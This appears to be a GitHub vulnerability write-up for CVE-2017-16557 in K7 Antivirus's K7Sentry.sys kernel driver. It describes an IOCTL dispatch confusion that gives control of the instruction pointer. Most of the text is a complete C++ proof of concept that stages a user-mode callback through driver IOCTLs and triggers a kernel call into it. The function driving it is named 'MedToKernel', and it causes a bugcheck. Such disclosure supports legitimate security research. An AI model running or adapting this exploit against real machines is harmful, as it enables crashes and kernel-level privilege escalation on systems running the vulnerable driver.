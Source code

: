 # CVE-2017-16557
# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*

# Related
The majority of this issue is still valid here so the write up isn't going to be duplicated.
[CVE-2017-16551](../CVE-2017-16551/readme.md)

# Details
## Vulnerability
The *K7Sentry.sys* exposes a significant amount of functionality through its DispatchHandler interface. Some of this calls through to common code which performs different actions depending on where it is called from. This appears to be to reduce code duplication. However, it is possible to confuse the routines and get consistent control of the instruction pointer.

This issue looks at the ControlCode 0x95002867 which is a wrapper around a call to *ZwReadFile*.

The main difference between this writeup and CVE-2017-16551 is the offset in unk9 is different:
```C++
int __thiscall sub_10770(unk3 *this, PVOID Buffer, ULONG Length, int a4, int a5)
{
    // ...
    else if ( unk3_field_1 == -1 )
    {
        pUnk9 = pUnk3->pUnk9;
        if ( pUnk9 )
        {
            if ( pUnk9->field_4 )
            {
                result = ((int (__cdecl *)(HANDLE, PVOID, ULONG, int, unsigned int))pUnk9->field_4)(
                        pUnk3->hFile,
                        Buffer,
                        Length,
                        a4,
                        v7);
                // ...
            }
        }
    }

    // ...

}
```

The offset for this control code is 0x04 which is reflected in the UNK9 structure in the PoC code.


# PoC Code
This proof of concept code will cause a bugcheck identical to CVE-2017-16551.

```C++

#pragma pack(push)
#pragma pack(1)
// Aka Unknown2
typedef struct _UNK9
{
	DWORD offset_0;
	DWORD function_ReadFile;
	DWORD function_WriteFile;
	DWORD function_SetInformationFile;
	DWORD function_Query;
} UNK9, *PUNK9;

// Aka Unknown1
typedef struct _UNK3
{
	BYTE magic;
	BYTE ff;
	DWORD offset_2;
	PUNK9 pUnk9;
} UNK3, *PUNK3;

#pragma pack(pop)


VOID __cdecl KernelCallback(HANDLE hFile, DWORD dwUnknown)
{
	__asm
	{
		mov eax, 0xaaaaaaaa
		mov ebx, 0xbbbbbbbb
		mov ecx, 0xcccccccc
		mov edx, 0xdddddddd
		mov esi, 0xd00dd00d
		mov edi, 0xcafecafe
		mov DWORD_PTR[0xCAFED00D], 0xcafecafe
	}
}

VOID SetupMemory_0x9500286F(HANDLE hFile)
{
	BYTE outBuffer[0x8000] = { 0 };
	BYTE data[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;

	UNK9 stUnk9 = { 0 };
	// This must not be 0;
	stUnk9.offset_0 = 1;

	printf("Function: 0x%p\r\n", KernelCallback);

	stUnk9.function_ReadFile = (DWORD)KernelCallback;
	stUnk9.function_WriteFile = (DWORD)KernelCallback;
	stUnk9.function_SetInformationFile = (DWORD)KernelCallback;
	stUnk9.function_Query = (DWORD)KernelCallback;

	memcpy(data, &stUnk9, sizeof(UNK9));

	printf("Setting up global buffer\r\n");

	// This will fill the buffer at 0x4efe8 to be the data we pass into it
	if (!DeviceIoControl(hFile, 0x95002580, data, sizeof(data), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}

	//
	// Now we need to set up the state before it, this is pretty easy as we are just passing in a 
	// single DWORD. This is 0x4efe0
	//
	printf("Setting up K and FF\r\n");
	DWORD dwUnk3Magics = 0xFF4B0000;
	if (!DeviceIoControl(hFile, 0x950025D4, &dwUnk3Magics, sizeof(DWORD), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}
}

VOID TriggerFunctionCall(HANDLE hFile)
{
	// ************* CHANGE ME *************
	// This can be done dynamically if required.
	DWORD dwDriverBase = 0x86ecd000;
	// *************************************
	DWORD dwBufferPtrWeControl = 0x4f760+2 - 0x10000 + dwDriverBase;

	BYTE data[0x8000] = { 0 };
	BYTE outBuffer[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;
	(*(DWORD*)data) = dwBufferPtrWeControl;

	// ReadFile
	if (!DeviceIoControl(hFile, 0x95002867, data, 16, outBuffer, 4, &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global\r\n");
	}
}


VOID MedToKernel()
{
	HANDLE 	hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

	BYTE arrInput[0x1000] = { 0 };
	BYTE arrOutput[0x1000] = { 0 };
	DWORD dwBytesReturned = 0;

	SetupMemory_0x9500286F(hDevice);
	TriggerFunctionCall(hDevice);
}

```